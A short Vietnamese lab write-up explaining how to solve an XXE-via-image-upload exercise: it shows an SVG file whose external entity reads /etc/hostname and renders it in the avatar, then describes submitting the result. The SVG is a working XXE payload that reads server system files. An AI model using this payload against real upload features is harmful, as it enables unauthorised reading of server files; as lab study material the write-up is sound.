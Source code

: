 ## Exploiting XXE via image file upload

Nhìn tên lab thì chắc ai cũng biết chúng ta phải sử dụng upload img để tấn công XXE rồi :v

Do định dạng file ***.svg*** là 1 dạng của XML được sử dụng để mô tả hình ảnh thông qua element (code wpf là biết mà :v)

Ta sẽ inject vào phần update ảnh 1 file ***.svg*** với nội dung như sau

```XML
<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg">
	<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
> Ta có thể lấy ra nội dung của entity ***xxe*** bằng cách gọi ra trong thẻ text của định dạng ***svg***

> [http://www.w3.org/2000/svg](http://www.w3.org/2000/svg) là namespace tiêu chuẩn của svg

Upload ảnh lên

![](/imgs/XXE/36.png?raw=true)

Mở cái avatar ra xem thì nó có nội dung như thế này.

![](/imgs/XXE/37.png?raw=true)

Chúng ta sẽ submit nội dung này vào là Solve Lab

![](/imgs/XXE/38.png?raw=true)

### Tài Liệu Tham Khảo
- Một số CheatSheet: [https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html](https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html)

